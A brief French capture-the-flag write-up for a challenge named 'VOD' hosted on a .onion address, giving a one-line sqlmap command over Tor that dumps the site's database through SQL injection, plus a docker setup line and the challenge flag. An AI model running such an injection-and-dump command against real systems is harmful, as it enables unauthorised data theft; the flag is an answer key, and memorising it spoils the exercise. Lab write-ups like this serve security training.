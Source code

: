 # VOD
## Challenge

Votre équipe a reçu un message (très) sécurisé de la part d'un agent soit-disant s3c3rt vous invitant à vous rendre sur ce site  http://xwjtp3mj427zdp4tljiiivg2l5ijfvmt5lcsfaygtpp6cw254kykvpyd.onion:1337.

Drôle d'url.

## Résolution

```
sqlmap -tor --tor-type=SOCKS5 -u "http://xwjtp3mj427zdp4tljiiivg2l5ijfvmt5lcsfaygtpp6cw254kykvpyd.onion:1337/platform.php?id=1" --batch --dump
```

## Setup

```
docker-compose up --build -d
```

## Flag

```PHACK{D0_U_kn0w_sQLm4p?}

```